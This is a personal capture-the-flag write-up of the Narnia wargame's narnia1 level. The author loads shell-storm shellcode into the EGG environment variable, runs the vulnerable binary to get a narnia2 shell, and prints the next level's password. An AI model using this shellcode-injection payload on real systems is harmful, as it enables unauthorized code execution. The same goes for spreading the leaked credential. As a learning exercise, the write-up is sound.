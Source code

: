 I'm looking at a writeup!

OK. so I read a write up, and I was a bit off. I should not load another function, as I will cause a segmentation fault, as happened. What I should do is to run shell code within the program's memory. okay, lets do so.

### Third try - Shell code

For this one, we will use make the function pointer run [[Shellcode]] and spawn a shell.
To start, let's figure out the architecture and version of the OS
```ruby
narnia1@gibson:/narnia$ uname -a
Linux gibson 6.2.0-1012-aws 12~22.04.1-Ubuntu SMP Thu Sep  7 14:01:24 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

As we can see, the host runs Linux gibson 6.2.0-1012-aws x86-64 architecture which is x86 architecture for 64 bytes.

Now let's find us a shellcode and work with it.
Say we use this shellcode found in shell-storm
```C
"\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81"
```

Now we need to set EGG to hold this value. Since these are bytes that we are trying to write into EGG, we need to format them correctly.
For this, we need to use a concept called [[Command substitution]]. For our case, we will use echo to format the string as needed.

```ruby
export EGG=$(echo -n -e "\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81")
```

Let's try this:

```ruby
narnia1@gibson:/narnia$ export EGG=$(echo -n -e "\xeb\x11\x5e\x31\xc9\xb1\x21\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x6b\x0c\x59\x9a\x53\x67\x69\x2e\x71\x8a\xe2\x53\x6b\x69\x69\x30\x63\x62\x74\x69\x30\x63\x6a\x6f\x8a\xe4\x53\x52\x54\x8a\xe2\xce\x81")
narnia1@gibson:/narnia$ env
<code snipped>
EGG=EGG=?^1ɱ!?l???u???????k

                       Y?Sgi.q??Skii0cbti0cjo??SRT??΁
```
This looks promising! let's run the program.

```ruby
narnia1@gibson:/narnia$ ./narnia1
Trying to execute EGG!
bash-5.1$ whoami
narnia2
bash-5.1$ cat /etc/narnia_pass/narnia2
Zzb6MIyceT
```
Success! The password for the next level is: Zzb6MIyceT.
